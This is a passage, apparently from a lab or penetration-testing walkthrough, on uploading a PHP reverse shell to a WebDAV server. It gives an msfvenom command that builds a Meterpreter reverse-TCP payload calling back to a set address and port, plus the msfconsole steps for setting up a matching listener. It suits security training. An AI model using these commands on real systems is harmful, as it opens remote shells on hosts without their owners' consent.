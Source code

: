 ![Webdav-login](Images/webdav_login.png)

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

![msf-payload](Images/msf-payload.png)

- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`
